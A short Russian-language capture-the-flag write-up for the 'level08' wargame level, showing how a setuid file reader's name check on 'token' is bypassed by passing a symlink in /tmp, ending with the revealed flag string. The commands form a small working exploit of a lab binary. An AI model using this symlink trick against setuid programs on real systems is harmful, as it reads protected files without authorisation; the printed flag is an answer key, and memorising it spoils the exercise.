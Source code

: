 ```
ls -l
```
> total 16\
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08\
-rw-------  1 flag08 flag08    26 Mar  5  2016 token

Пробуем запустить:

```
./level08
```
> ./level08 [file to read]

Создадим файл и проверим, что произойдет
```
echo 123 > /tmp/file;
./level08 /tmp/file
```
> 123

Вывелось содержимое файла, а значит он может прочитать содержимое файла token
```
./level08 ./token
```
> You may not access './token'

Не открывается, проверим, что происходит внутри скрипта
```
ltrace ./level08 token
```
> \_\_libc_start_main(0x8048554, 2, 0xbffff7a4, 0x80486b0, 0x8048720 <unfinished ...>\
strstr("token", "token")                                                                                      = "token"\
printf("You may not access '%s'\n", "token"You may not access 'token'\
)                                                                  = 27\
exit(1 <unfinished ...>\
+++ exited (status 1) +++

Происходит сравнение того, что мы подаем с token, если это токен, то он не открывает файл

Создадим ссылку на этот файл и подадим его

```
ln -s /home/user/level08/token /tmp/exploit
```

Подадим ссылку:
```
./level08 /tmp/exploit
```
> quif5eloekouj29ke0vouxean
